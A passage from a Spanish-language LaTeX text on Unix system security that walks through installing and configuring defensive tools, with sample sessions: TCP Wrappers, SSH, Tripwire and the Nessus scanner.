/usr/bin/eject
/usr/bin/fdformat
/usr/bin/newgrp
/usr/bin/ps
/usr/bin/rcp
/usr/bin/rdist
/usr/bin/rlogin
/sbin/sulogin
/usr/bin/login
/usr/bin/rsh
/usr/bin/su
/usr/bin/tip
/usr/bin/uptime
/usr/bin/yppasswd
/usr/bin/w
/usr/bin/ct
/usr/bin/cu
/usr/bin/uucp
/usr/bin/uuglist
/usr/bin/uuname
/usr/bin/uustat
/usr/bin/uux
/usr/lib/exrecover
/usr/lib/fs/ufs/ufsdump
/usr/lib/fs/ufs/ufsrestore
/usr/lib/pt_chmod
/usr/lib/sendmail.mx
/usr/lib/acct/accton
/usr/sbin/allocate
/usr/sbin/mkdevalloc
/usr/sbin/mkdevmaps
/usr/sbin/ping
/usr/sbin/sacadm
/usr/sbin/static/rcp
/usr/sbin/whodo
/usr/sbin/deallocate
/usr/sbin/list_devices
/usr/openwin/bin/xlock
/usr/openwin/bin/xdm
/usr/openwin/lib/mkcookie
/usr/ucb/ps
/usr/vmsys/bin/chkperm
/usr/bin/passwd
/usr/bin/csh
/etc/lp/alerts/printer
/usr/kvm/crash
/usr/kvm/eeprom
/usr/bin/netstat
/usr/bin/nfsstat
/usr/bin/write
/usr/bin/ipcs
/usr/sbin/arp
/usr/sbin/prtconf
/usr/sbin/swap
/usr/sbin/sysdef
/usr/sbin/wall
/usr/sbin/dmesg
/usr/openwin/bin/Xsun
/usr/openwin/bin/wsinfo
/usr/openwin/bin/mailtool
/usr/openwin/bin/xload
/usr/openwin/bin/kcms_calibrate
/usr/openwin/bin/kcms_configure
/usr/openwin/bin/kcms_server
/var/adm/messages
/var/log/syslog
/var/adm/pacct
anita:/export/home/toni/Security/Tools/Titan,v3.0.FCS#
\end{verbatim}
Mirando por encima el resultado ofrecido por {\it Titan}, vemos que ha 
detectado {\bf <casi 50 posibles problemas!} (cada mensaje {\sc FAILS CHECK} 
denota una alarma, mientras que cada mensaje {\sc PASSES CHECK} denota un 
test satisfactorio).\\
\\A la vista de estos resultados, y teniendo en cuenta que hemos utilizado una
versi\'on m\'as o menos moderna de Solaris (la versi\'on 7 10/98, si 
hubi\'eramos comprobado una versi\'on de Solaris o SunOS m\'as antigua 
habr\'{\i}amos detectado seguramente muchos m\'as problemas), parece claro que
un sistema Unix instalado tal y como se distribuye, o con una configuraci\'on
de seguridad m\'{\i}nima --nuestro caso--, representa un grave problema ya no
s\'olo para la m\'aquina en cuesti\'on, sino para toda la red en la que 
trabaja. Por tanto, el uso de cualquier herramienta que nos ayude a solucionar,
o al menos a localizar problemas, va a ser \'util.
\section{TCP Wrappers}
En el punto \ref{serv} habl\'abamos de los servicios ofrecidos desde nuestra 
m\'aquina; all\'{\i} comentamos que cualquiera de ellos es una potencial puerta 
de entrada para un atacante, por lo que es muy recomendable cerrar todos los
que no necesitemos; vimos un esquema todo o nada: u ofrec\'{\i}amos un servicio
a toda la red o lo deneg\'abamos, pero no hab\'{\i}a t\'ermino medio.\\
\\Hay una serie de servicios como {\it telnet} o {\it ftp} que habitualmente no 
vamos a poder cerrar, ya que los usuarios necesitar\'an conectar al servidor 
para trabajar en \'el o para transferir ficheros; en estos casos es peligroso 
permitir que cualquier m\'aquina de Internet tenga la posibilidad de acceder
a nuestros recursos, por lo que se suele utilizar un programa denominado 
{\it TCP Wrappers} (\cite{kn:ven92}) para definir una serie de redes o 
m\'aquinas autorizados a
conectar con nosotros. Aqu\'{\i} veremos como instalar este {\it software} 
-- en su versi\'on 7.6 -- y su configuraci\'on b\'asica para que no todo el 
mundo pueda contactar con nosotros. Actualmente, cualquier administrador que 
desee un m\'{\i}nimo de seguridad ha de instalar {\it TCP Wrappers} en sus
equipos; incluso algunos Unices como Linux o BSDI lo ofrecen por defecto al 
instalar el operativo. Cabe decir que la configuraci\'on del programa puede
ser muy elaborada y con muchas opciones; aqu\'{\i} veremos la forma m\'as 
b\'asica, que suele ser autom\'atica mediante {\tt make install}
\footnote{Aqu\'{\i} explicamos el proceso `a mano' simplemente para entender 
c\'omo funciona.}. 
Para configuraciones m\'as avanzadas se recomienda consultar los ficheros de 
ayuda.\\
\\En nuestro caso vamos a instalar {\it TCP Wrappers} sobre una m\'aquina
Silicon Graphics corriendo IRIX 6.2:
\tt
\begin{quote}
\begin{verbatim}
llegona_(/) # uname -a
IRIX64 llegona 6.2 06101031 IP28
llegona_(/) # 
\end{verbatim}
\end{quote}
\rm
No vamos a entrar aqu\'{\i} en como compilar el software (para ello se puede
consultar el fichero {\tt README}); asumiremos que ya lo tenemos compilado y
el resultado est\'a, por ejemplo, en el directorio {\tt /tmp/tcp$\_$wrappers$\_$7.6/}.
Tras compilar el {\it software} se habr\'an generado una serie de ficheros
ejecutables que hemos de copiar a un destino definitivo, por ejemplo a 
{\tt /etc/usr/sbin/}:
\begin{quote}
\begin{verbatim}
llegona_(/tmp/tcp_wrappers_7.6) # cp `find . -type f -perm -700` /usr/sbin/
llegona_(/tmp/tcp_wrappers_7.6) # 
\end{verbatim}
\end{quote}
Una vez en su destino definitivo, hemos de modificar el fichero {\tt 
/etc/inetd.conf} para indicarle a {\tt inetd} que ha de utilizar el demonio 
{\tt tcpd} (la parte m\'as importante de {\it TCP Wrappers}) a la hora de 
servir peticiones; para ello, una entrada de la forma 
\begin{quote}
\begin{verbatim}
telnet  stream  tcp     nowait  root    /usr/etc/telnetd 
\end{verbatim}
\end{quote}
se convertir\'a en una como 
\begin{quote}
\begin{verbatim}
telnet  stream  tcp     nowait  root    /usr/sbin/tcpd  /usr/etc/telnetd 
\end{verbatim}
\end{quote}
Como vemos, en lugar de que {\tt inetd} ejecute directamente el demonio
correspondiente a cada servicio, ejecuta el {\it wrapper}, y es \'este el 
encargado de controlar la ejecuci\'on del demonio real.\\
\\Tras haber modificado convenientemente {\tt /etc/inetd.conf} hemos de
configurar
los servicios que vamos a ofrecer a diferentes m\'aquinas o redes; seguiremos 
una pol\'{\i}tica restrictiva: todo lo no expl\'{\i}citamente permitido, est\'a
negado. Para ello, en el archivo {\tt /etc/hosts.allow} indicamos que servicios
ofrecemos y a d\'onde lo hacemos\footnote{Realmente, tambi\'en es posible
especificar acciones a realizar al recibir una conexi\'on; se puede consultar
la sintaxis exacta en la p\'agina del manual de {\tt hosts$\_$access(5)}.}, de 
la siguiente forma:
\it
\begin{center}
demonio: maquinas
\end{center}
\rm
Donde {\it `demonio'} es el nombre del demonio encargado de atender el servicio
correspondiente \\({\tt sendmail}, {\tt telnetd}, {\tt fingerd}\ldots), y {\it
`maquinas'} es la especificaci\'on de los {\it hosts} a los que les est\'a
permitida la conexi\'on a cada servicio; se trata de una lista separada por 
espacios donde podemos incluir desde nombres de sistemas o direcciones IP hasta
subdominios, pasando por palabras reservadas como {\tt ALL}.
As\'{\i}, si por ejemplo queremos ofrecer todo a las
m\'aquinas {\tt .dsic.upv.es}, {\it telnet} a {\tt andercheran.aiind.upv.es} y
{\tt luisvive.euiti.upv.es}, y 
{\tt ftp} a toda la UPV, tendremos un {\tt /etc/hosts.allow} de la forma
siguiente:
\begin{quote}
\begin{verbatim}
llegona_(/) # cat /etc/hosts.allow
ALL: .dsic.upv.es
telnetd: andercheran.aiind.upv.es luisvive.euiti.upv.es
ftpd: .upv.es
llegona_(/) #
\end{verbatim}
\end{quote}
Acabamos de configurar los sistemas con acceso a ciertos demonios; para indicar
a {\it TCP Wrappers} que nuestros servicios no van a ser ofertados a nadie 
m\'as, creamos el fichero {\tt /etc/hosts.deny} y denegamos todo a todos:
\tt
\begin{quote}
\begin{verbatim}
llegona_(/) # cat /etc/hosts.deny
ALL: ALL
llegona_(/) #
\end{verbatim}
\end{quote}
\rm
Una vez hemos configurado todo, hemos de hacer que {\tt inetd} relea su fichero
de configuraci\'on envi\'andole la se\~nal {\sc sighup}, por ejemplo con
la orden {\tt killall -HUP inetd}\footnote{Concretamente en IRIX este mecanismo
no funciona, hay que matar el demonio y volverlo a lanzar.}. A partir de ese 
momento los cambios han tenido efecto; en funci\'on de nuestro {\tt 
/etc/syslog.conf}, pero generalmente en archivos como {\tt /var/adm/SYSLOG} o
{\tt /var/adm/messages} vamos a poder ver las conexiones aceptadas y las
rehusadas:
\tt
\begin{quote}
\begin{verbatim}
Dec 2 02:16:47 llegona ftpd[18234]: refused connect from bill.microsoft.com
Dec 2 02:45:23 llegona telnetd[18234]: connect from corbella.dsic.upv.es
\end{verbatim}
\end{quote}
\rm
Cuando alguien desde una m\'aquina que tiene permiso para acceder a cierto
servicio conecte a \'el no notar\'a nada raro, pero si lo hace desde un equipo
no autorizado, la conexi\'on se cerrar\'a:
\tt
\begin{quote}
\begin{verbatim}
anita:~# telnet llegona.dsic.upv.es
Trying 158.42.49.37...
Connected to llegona.dsic.upv.es
Escape character is '^]'.
llegona login: Connection closed by foreign host.
anita:~# 
\end{verbatim}
\end{quote}
\rm
\section{SSH}
Tradicionalmente el intercambio de datos entre sistemas Unix (desde la 
transferencia de ficheros o la compartici\'on de archivos v\'{\i}a NFS hasta el
acceso remoto) se ha realizado utilizando mecanismos en los que la seguridad 
era un factor poco importante frente a otros como la velocidad o la 
disponibilidad. Sin embargo, conforme ha ido aumentando 
la calidad de los medios de transmisi\'on (en la actualidad cualquier peque\~na
organizaci\'on tiene al menos una red {\it Fast Ethernet} capaz de alcanzar 
velocidades de 100 Mbps, cuando no una ATM, una FDDI o incluso una GigaEthernet
que alcanza los 1000 Mbps de velocidad), y tambi\'en conforme ha ido aumentando
la peligrosidad de las redes, especialmente de Internet, se ha ido considerando
m\'as el grave problema que implica una transmisi\'on de datos en texto claro,
ya sea un {\it telnet}, un {\it ftp} o incluso la transmisi\'on de datos que
tiene lugar al utilizar sistemas de ficheros en red. Por suerte, en la 
actualidad, casi nadie sigue usando los medios cl\'asicos de intercambio de 
datos entre equipos Unix: por ejemplo, muy poca gente sigue conectando mediante 
{\it telnet} a m\'aquinas remotas, mientras que hace unos pocos a\~nos era
habitual ver estas conexiones incluso entre m\'aquinas separadas por multitud
de redes. Casi todos los mecanismos cl\'asicos se han reemplazado por 
protocolos que incorporan el cifrado en mayor o menor medida, de forma que 
un pirata que captura datos transmitidos entre sistemas lo tiene muy 
dif\'{\i}cil para conseguir informaci\'on importante, como una clave de 
usuario; ejemplos de protocolos que incorporan la criptograf\'{\i}a son SSL 
({\it Secure Socket Layer}) o TCFS ({\it Transparent Cryptographic File 
System}, del que ya hemos hablado en este proyecto).\\
\\Dentro de todo estos modelos considerados seguros est\'a {\it Secure Shell} 
({\sc ssh}), un {\it software} cuya principal funci\'on es permitir la 
conexi\'on remota segura a sistemas a trav\'es de canales inseguros, aunque 
tambi\'en se utiliza para la ejecuci\'on de \'ordenes en ese sistema remoto o 
transferir ficheros desde o hacia \'el de manera fiable (\cite{kn:ylo96}); es, 
por tanto, el 
sustituto ideal de \'ordenes como {\tt telnet}, {\tt ftp} o {\tt r$\ast$} de 
Unix BSD. Todo esto utilizando RSA, SecurID, Kerberos, TIS o la autenticaci\'on 
cl\'asica de Unix ({\it login} y {\it password}). Adem\'as, y entre otras 
caracter\'{\i}sticas, {\sc ssh} tambi\'en soporta el cifrado autom\'atico 
en sesiones X-Window o modelos de seguridad m\'as avanzados, como el cifrado en
NFS o la construcci\'on de redes privadas virtuales; su c\'odigo fuente es
libre para uso no comercial (existe otro {\it software} casi completamente 
compatible con {\tt ssh} y completamente libre, denominado {\it OpenSSH}) y se 
puede obtener en {\tt http://www.ssh.fi/}. En la actualidad, {\sc
ssh} funciona sobre la mayor\'{\i}a de clones de Unix (tambi\'en existen 
versiones para Windows y MacOS), y es ampliamente utilizado en todo tipo de 
entornos, desde universidades a bancos pasando por empresas de cualquier 
sector.\\
\\{\sc ssh} est\'a formado por un programa servidor, {\tt sshd}, varios 
programas cliente ({\tt ssh} y {\tt scp} principalmente) y peque\~nas 
aplicaciones para su
configuraci\'on, como {\tt ssh-add}, {\tt ssh-keygen} o {\tt ssh-agent}. El 
programa demonio
({\tt sshd}) se ejecuta en la m\'aquina contra la cual conectamos, mientras
que los clientes se han de ejecutar evidentemente en el sistema desde el cual
conectamos; as\'{\i}, podemos iniciar una sesi\'on en la m\'aquina remota con
una orden como la siguiente:
\begin{quote}
\begin{verbatim}
anita:~# ssh -l toni rosita
toni's password: 
Last login: Thu Apr  6 03:58:32 2000 from anita
Linux 2.2.6
"A witty saying proves nothing."
                -- Voltaire

rosita:~$
\end{verbatim}
\end{quote}
El par\'ametro {\tt `-l'} nos permite indicar el nombre de usuario en el
sistema remoto (en caso contrario, se utilizar\'a el mismo nombre que se posee
en la m\'aquina local); {\sc ssh} tambi\'en permite especificar desde 
l\'{\i}nea de comandos una orden a ejecutar en la m\'aquina a la que 
conectamos, de forma que cuando esta orden finalice se cerrar\'a la conexi\'on 
entre ambos sistemas:
\begin{quote}
\begin{verbatim}
anita:~# ssh -l toni luisa w
toni's password:
  3:15am  up 5 days,  1:30,  5 users,  load average: 1.12, 1.04, 1.01
USER     TTY      FROM     LOGIN@   IDLE   JCPU   PCPU  WHAT
root     tty1     -        Sat12am  5days  0.02s  0.02s  bash           
toni     ttyp1    :0.0     Sun 3pm  1:02   0.18s  0.13s  telnet rosita 
toni     ttyp2    :0.0     Sun 4am  2.00s  2.40s  2.04s  vi tools.tex 
toni     ttyp4    anita    Tue 1am  0.00s  1.31s  0.02s  w 
anita:~#
\end{verbatim}
\end{quote}
Como hemos podido ver, {\tt ssh} se utiliza b\'asicamente para iniciar sesiones
o ejecutar comandos en un sistema remoto; el otro programa cliente, {\tt scp},
es utilizado para transferir ficheros entre m\'aquinas, de una forma similar
a {\tt rcp}, lo que por ejemplo permite sustituir el {\it ftp} tradicional por
este mecanismo. Si por ejemplo deseamos copiar todos los ficheros del 
directorio {\tt /export/home/toni/} conectando al sistema remoto bajo el nombre
de usuario {\tt toni} en el directorio {\tt /tmp/} de la m\'aquina local, lo 
podemos conseguir con una orden como esta:
\begin{quote}
\begin{verbatim}
luisa:~# scp -r toni@anita:/export/home/toni/ /tmp/
toni's password:
luisa:~#
\end{verbatim}
\end{quote}
Como podemos ver, estamos indicando el nombre de usuario y el del sistema
remotos separados por {\tt `@'}, y separados a su vez de la ruta origen por
el signo {\tt `:'}.\\ 
\\Pero, >qu\'e es lo que realmente hace cualquiera de estos clientes contra el
servidor {\tt sshd}? Si no indicamos lo contrario con la opci\'on {\tt `-p'}, 
el cliente 
conecta al puerto 22 de la m\'aquina servidora y verifica que esta m\'aquina
es realmente con la que queremos conectar, intercambia las claves de cifrado
entre sistemas (cifradas a su vez, para evitar que un atacante pueda obtener
la informaci\'on) y autentica utilizando {\tt .rhosts} y {\tt /etc/hosts.equiv}
(como los protocolos {\tt r-$\ast$}), RSA o claves de usuario; si todo es 
correcto, el servidor asigna una terminal virtual (generalmente) a la conexi\'on
y lanza un {\it shell} interactivo. Podemos ver con detalle este proceso
utilizando la opci\'on {\tt `-v'} del cliente:
\begin{quote}
\begin{verbatim}
luisa:~# ssh -v -l toni luisa
SSH Version 1.2.21 [i486-unknown-linux], protocol version 1.5.
Standard version.  Does not use RSAREF.
luisa: Reading configuration data /etc/ssh_config
luisa: ssh_connect: getuid 0 geteuid 0 anon 0
luisa: Connecting to luisa [192.168.0.2] port 22.
luisa: Allocated local port 1023.
luisa: Connection established.
luisa: Remote protocol version 1.5, remote software version 1.2.21
luisa: Waiting for server public key.
luisa: Received server public key (768 bits) and host key (1024 bits).
luisa: Host 'luisa' is known and matches the host key.
luisa: Initializing random; seed file /root/.ssh/random_seed
luisa: Encryption type: idea
luisa: Sent encrypted session key.
luisa: Received encrypted confirmation.
luisa: Trying rhosts or /etc/hosts.equiv with RSA host authentication.
luisa: Remote: Rhosts/hosts.equiv authentication refused:\
       client user 'root', server user 'toni', client host 'luisa'.
luisa: Server refused our rhosts authentication or host key.
luisa: No agent.
luisa: Doing password authentication.
toni's password:
luisa: Requesting pty.
luisa: Failed to get local xauth data.
luisa: Requesting X11 forwarding with authentication spoofing.
luisa: Requesting shell.
luisa: Entering interactive session.
Last login: Thu Apr  6 04:13:41 2000 from luisa
Linux 2.2.6
If you want divine justice, die.
                -- Nick Seldon

luisa:~$ exit
logout
Connection to luisa closed.
luisa: Transferred: stdin 5, stdout 491, stderr 29 bytes in 2.6 seconds
luisa: Bytes per second: stdin 1.9, stdout 189.0, stderr 11.2
luisa: Exit status 0
luisa:~# 
\end{verbatim}
\end{quote}
\normalsize
Como sucede en cualquier programa cliente--servidor, la configuraci\'on de la
parte cliente es mucho m\'as sencilla que la de la parte servidora: ni 
siquiera es necesario el fichero de configuraci\'on general {\tt 
/etc/ssh$\_$config}, donde se definen par\'ametros por defecto (que cada 
usuario puede modificar para s\'{\i} mismo en sus propios ficheros o en 
l\'{\i}nea de \'ordenes). S\'olamente necesitamos el ejecutable (por ejemplo, 
{\tt ssh}),
que generar\'a en el directorio {\tt \$HOME/.ssh} de quien lo ejecute varios
ficheros necesarios para su funcionamiento; quiz\'as el m\'as importante sea
{\tt known$\_$hosts}, donde se almacenan las claves p\'ublicas de los diferentes
sistemas a los que se conecta. Estas claves, una por l\'{\i}nea, se guardan la 
primera vez que se conecta a una determinada m\'aquina, algo que el cliente 
indica con un mensaje de esta forma:
\begin{quote}
\begin{verbatim}
rosita:~# ssh -l toni luisa
Host key not found from the list of known hosts.
Are you sure you want to continue connecting (yes/no)? yes
Host 'luisa' added to the list of known hosts.
toni's password: 
Last login: Thu Apr  6 23:20:42 2000 from :0.0
Linux 2.2.6
Drive defensively.  Buy a tank.

luisa:~$
\end{verbatim}
\end{quote}
Por su parte, la configuraci\'on del servidor es algo m\'as compleja; en el 
archivo {\tt /etc/sshd$\_$config}, fichero de configuraci\'on del demonio {\tt
sshd}, se especifican todos los par\'ametros necesarios para su funcionamiento.
Algunos de estos par\'ametros, quiz\'as los m\'as \'utiles, son {\tt AllowHosts}
y {\tt DenyHosts}, donde como su nombre indica se referencian los sistemas desde
los que la conexi\'on a nuestro demonio se permite o se deniega; al contrario
de lo que mucha gente sigue pensando, utilizar {\sc ssh} no implica tener 
disponible el servicio para todo el mundo, y es aqu\'{\i} donde indicamos los
sistemas desde donde permitimos conexiones. Adem\'as, podemos servir {\tt sshd} 
desde {\tt inetd} modificando convenientemente {\tt /etc/inetd.conf} en lugar
de hacerlo como demonio independiente, de forma que podemos aprovechar un
{\it software} como {\it TCP Wrappers} para restringir conexiones; el \'unico 
inconveniente de este modelo es que cada vez que alguien conecta al demonio 
\'este tiene que generar una clave RSA para esa conexi\'on, lo que en 
determinadas situaciones puede sobrecargar demasiado al sistema. Si de cualquier
forma queremos seguir este mecanismo, hemos de modificar {\tt /etc/services} 
para a\~nadir una l\'{\i}nea como la siguiente:
\begin{quote}
\begin{verbatim}
ssh             22/tcp
\end{verbatim}
\end{quote}
Y tambi\'en modificaremos {\tt /etc/inetd.conf} a\~nadiendo la configuraci\'on
del nuevo servicio:
\begin{quote}
\begin{verbatim}
ssh  stream  tcp     nowait  root    /usr/sbin/tcpd /usr/local/sbin/sshd -i
\end{verbatim}
\end{quote}
Tras lo cual, como cada vez que modificamos este archivo, hemos de conseguir que
{\tt inetd} lo relea envi\'andole al demonio la se\~nal {\sc sighup}.
\section{Tripwire}
La herramienta {\it Tripwire} (\cite{kn:kim93}), 
\cite{kn:kim94b}) es un comprobador de integridad para ficheros y
directorios de sistemas Unix: compara un conjunto de estos objetos con la
informaci\'on sobre los mismos almacenada previamente en una base de datos, y
alerta al administrador en caso de que algo haya cambiado. La idea es simple:
se crea un resumen de cada fichero o directorio importante para nuestra 
seguridad nada m\'as instalar el sistema, y esos res\'umenes se almacenan en
un medio seguro (un CD-ROM o un disco protegido contra escritura), de forma que 
si alguno de los ficheros es modificado (por ejemplo, por un atacante que 
sustituye un programa por una versi\'on troyanizada o a\~nade una entrada en
nuestro fichero de contrase\~nas) {\it Tripwire} nos alertar\'a la pr\'oxima
vez que realicemos la comprobaci\'on. Para generar esos res\'umenes se utilizan
funciones {\it hash}, de forma que es casi imposible que dos ficheros generen
el mismo resumen; concretamente {\it Tripwire} implementa {\sc md2}, {\sc md4}, 
{\sc md5}, {\it Snefru}, {\sc crc-16} y {\sc crc-32}.\\
\\Una vez hemos compilado el c\'odigo fuente de {\it Tripwire} debemos 
inicializar la base de datos; para ello necesitamos en primer lugar crear el 
fichero {\tt tw.config} en la localizaci\'on indicada en {\tt 
include/config.h}, donde 
espedificaremos los directorios a analizar (en el directorio {\tt configs/} 
tenemos algunos ficheros de ejemplo, adecuados a diferentes plataformas Unix).
A continuaci\'on inicializaremos la base de datos con la orden {\tt tripwire 
-initialize} (o simplemente {\tt -init}):
\begin{quote}
\begin{verbatim}
anita:/tmp/tripwire-1.2/src# ./tripwire -init
### Phase 1:   Reading configuration file
### Phase 2:   Generating file list
### Phase 3:   Creating file information database
###
### Warning:   Database file placed in ./databases/tw.db_anita.
###
###            Make sure to move this file file and the configuration
###            to secure media!
###
###            (Tripwire expects to find it in '/usr/local/tw'.)
anita:/tmp/tripwire-1.2/src# 
\end{verbatim}
\end{quote}
En el fichero {\tt ./databases/tw.db$\_$anita} se encuentran las funciones
resumen de los archivos y directorios especificados en {\tt tw.config}; 
evidentemente, los datos de ese fichero se asumen como fiables, por lo que 
es recomendable generarlo {\bf antes} de abrir la m\'aquina a los usuarios,
nada m\'as instalar el operativo. Adem\'as, si un usuario lo consigue modificar
toda la seguridad de {\it Tripwire} se rompe, as\'{\i} que deberemos almacenarlo
en un medio seguro (por ejemplo, de s\'olo lectura), e incluso imprimir en
papel una copia para realizar comprobaciones si sospechamos de un ataque.\\
\\Con la base de datos inicial ya generada, podemos ejecutar regularmente
{\it Tripwire} para verificar que no ha cambiado ning\'un resumen de nuestros
fichero; para ello es necesario utilizar dicha base de datos desde una fuente
segura (por ejemplo, reci\'en copiada desde el medio de s\'olo lectura al
disco, en modo monousuario):
\begin{quote}
\begin{verbatim}
anita:/tmp/tripwire-1.2/src# ./tripwire &>resultados
anita:/tmp/tripwire-1.2/src# head -17 resultados
### Phase 1:   Reading configuration file
### Phase 2:   Generating file list
### Phase 3:   Creating file information database
### Phase 4:   Searching for inconsistencies
###
###                     Total files scanned:            4821
###                           Files added:              2
###                           Files deleted:            0
###                           Files changed:            4413
###
###                     After applying rules:
###                           Changes discarded:        3959
###                           Changes remaining:        458
###
added:   -rw------- root            0 May  5 03:46:06 2000 /var/tmp/test
changed: -rw-r--r-- root          972 May  5 03:49:53 2000 /var/adm/utmp
changed: -rw-r--r-- root        10044 May  5 03:49:53 2000 /var/adm/utmpx
anita:/tmp/tripwire-1.2/src# 
\end{verbatim}
\end{quote}
Finalmente, debemos pensar que existir\'an ficheros o directorios que van a
cambiar habitualmente (por ejemplo, el archivo de contrase\~nas cada vez que
a\~nadamos a un usuario al sistema); por tanto, es l\'ogico que {\it Tripwire}
ofrezca un mecanismo de actualizaci\'on de la base de datos. Es m\'as, este
programa posee dos: o bien el modo interactivo o el modo actualizaci\'on. En
el primero, cada vez que {\it Tripwire} detecte un fichero con modificaciones
nos consultar\'a si deseamos actualizar nuestra base de datos, mientras que en
el modo {\it update} se utiliza para la actualizaci\'on o bien un nombre de
archivo (si es lo \'unico modificado) o bien un directorio pasado como 
par\'ametro al ejecutable. El modo interactivo se invocado mediante la
opci\'on {\tt -interactive}:
\begin{quote}
\begin{verbatim}
anita:/tmp/tripwire-1.2/src# ./tripwire -interactive
### Phase 1:   Reading configuration file
### Phase 2:   Generating file list
### Phase 3:   Creating file information database
### Phase 4:   Searching for inconsistencies
###
###                     Total files scanned:            4820
###                           Files added:              1
###                           Files deleted:            0
###                           Files changed:            4413
###
###                     After applying rules:
###                           Changes discarded:        3958
###                           Changes remaining:        457
###
added:   -rw------- toni        32768 May  5 03:55:29 2000 /var/tmp/Rx0000755
---> File: '/var/tmp/Rx0000755'
---> Update entry?  [YN(y)nh?] 
\end{verbatim}
\end{quote}
Mientras que el modo {\it update} se consigue mediante el par\'ametro {\tt
-update}; por ejemplo, si hemos a\~nadido a un usuario (y por tanto modificado
los ficheros {\tt /etc/passwd} y {\tt /etc/shadow}), actualizaremos la base de 
datos de {\it Tripwire} con la siguiente orden:
\begin{quote}
\begin{verbatim}
anita:/tmp/tripwire-1.2/src# ./tripwire -update /etc/passwd /etc/shadow
### Phase 1:   Reading configuration file
### Phase 2:   Generating file list
Updating: update file: /etc/passwd
Updating: update file: /etc/shadow
### Phase 3:   Updating file information database
###
### Old database file will be moved to `tw.db_anita.old'
###            in ./databases.
###
### Updated database will be stored in './databases/tw.db_anita'
###            (Tripwire expects it to be moved to '/usr/local/tw'.)
###
anita:/tmp/tripwire-1.2/src# 
\end{verbatim}
\end{quote}
{\it Tripwire} es una herramienta muy \'util como sistema de detecci\'on de
intrusos (\cite{kn:kim94a}) en nuestras m\'aquinas Unix; ejecutarlo 
peri\'odicamente, y mantener segura la base de datos de res\'umenes -- donde
recordemos que 
reside {\bf toda} la fiabilidad del producto -- nos puede ayudar a detectar
accesos no autorizados al sistema y, m\'as importante, modificaciones que el
pirata haya podido realizar en \'el para garantizarse un futuro acceso.
\section{Nessus}
Sin duda una de las herramientas de seguridad m\'as utilizadas durante a\~nos
en todo tipo de entornos Unix ha sido SATAN ({\it Security Analysis Tool for 
Auditing Networks}), desarrollada por dos pesos pesados dentro del mundo de la
seguridad: Dan Farmer y Wietse Venema. La tarea de SATAN (o SANTA) era detectar
vulnerabilidades de seguridad en sistemas Unix y redes, desde fallos conocidos
en el {\it software} hasta pol\'{\i}ticas incorrectas (\cite{kn:fre98}); el 
resultado de su 
ejecuci\'on se mostraba en formato HTML, de forma que cualquier administrador
pod\'{\i}a analizar esa informaci\'on de una forma muy c\'omoda. Evidentemente,
esta herramienta puede convertirse en peligrosa en las manos de un pirata, por
lo que sobre Farmer y Venema llovieron en su d\'{\i}a las cr\'{\i}ticas por
el dise\~no de SATAN; hoy en d\'{\i}a, con las ideas de {\it Security through
Obscurity} y similares ya superadas -- esperemos --, nadie duda en reconocer la 
gran utilidad de este tipo de herramientas analizadoras de vulnerabilidades.\\
\\Sin embargo, todo esto suced\'{\i}a en abril de 1995, y SATAN no se ha
actualizado mucho desde entonces (la \'ultima versi\'on distribuida es la 
1.1.1). Evidentemente, para una herramienta de seguridad este tiempo sin nuevas
versiones es demasiado, por lo que en 1998 surgi\'o {\it Nessus}, un analizador
de vulnerabilidades gratuito, de c\'odigo fuente libre, y lo m\'as importante:
igual de f\'acil -- o m\'as -- de utilizar que su predecesor.\\
\\La distribuci\'on de {\it Nessus} consta de cuatro ficheros b\'asicos: las
librer\'{\i}as del programa, las librer\'{\i}as {\sc nasl} ({\it Nessus Attack 
Scripting Language}), el n\'ucleo de la aplicaci\'on y sus {\it plugins}; es 
necesario compilar en este orden cada una
de esas partes. Adem\'as, el programa requiere para funcionar correctamente
peque\~nas aplicaciones adicionales, como la librer\'{\i}a {\sc gmp}, necesaria
para las operaciones de cifrado. La compilaci\'on sobre diferentes plataformas
Unix no ofrece ning\'un problema siempre que se realice en el orden adecuado,
y se suele limitar a un {\tt ./configure}, {\tt make} y {\tt make install} para
cada una de las cuatro partes de {\it Nessus}.\\
\\Una vez hemos compilado e instalado el programa necesitamos en primer lugar
generar -- como {\tt root} -- una clave de un solo uso para un usuario de {\it 
Nessus}:
\begin{quote}
\begin{verbatim}
luisa:~/nessus# nessusd -P toni,prueba
Generating primes: .................q............................;
Retrying:          ....q...pg
luisa:~/nessus# 
\end{verbatim}
\end{quote}
Podemos verificar que el nombre de usuario se ha a\~nadido correctamente
utilizando la opci\'on {\tt `-L'}:
\begin{quote}
\begin{verbatim}
luisa:~/nessus# nessusd -L
                toni - user password
luisa:~/nessus#
\end{verbatim}
\end{quote}
Ahora podemos lanzar ya la parte servidora de {\it Nessus}, el demonio {\tt
nessusd}; cuando est\'e este demonio ejecut\'andose (escucha peticiones en el
puerto 3001 por defecto) podemos conectar a \'el mediante el cliente {\tt
nessus}. La primera vez que ejecutemos este programa nos pedir\'a una {\it 
pass phrase} con prop\'ositos de autenticaci\'on, frase que se utilizar\'a en
ejecuciones posteriores del cliente:
\begin{quote}
\begin{verbatim}
luisa:~$ nessus
Generating primes: .......................q..............pg

   To protect your private key just generated, enter your personal
   pass phrase, now.  Keep that pass phrase secret.  And each time
   when you restart nessus, re-enter that pass phrase when you are
   asked, for.  This prevents anybody else from logging in to the
   nessus server using your account.

   The drawback of a pass phrase is that it will prevent you from being
   able to use nessus(1) in a cron job or in a quiet script.
   If you do not want to use a pass phrase, enter a blank one.

   To change or remove the pass phrase, later on read in the manual
   page nessus(1) about the -C option.

New pass phrase: 
Repeat         : 

luisa:~$
\end{verbatim}
\end{quote}
Entraremos entonces en un c\'omodo interfaz gr\'afico desde el que mediante
el {\it password} de usuario creado anteriormente podemos conectar al servidor
de {\it Nessus} y comenzar el an\'alisis del sistema, especificando las 
diferentes opciones que el programa nos ofrece a trav\'es de dicho interfaz; en
la figura \ref{nessus} se muestra el aspecto del entorno ofrecido por {\it
Nessus}.\\
\begin{figure}
\begin{center}
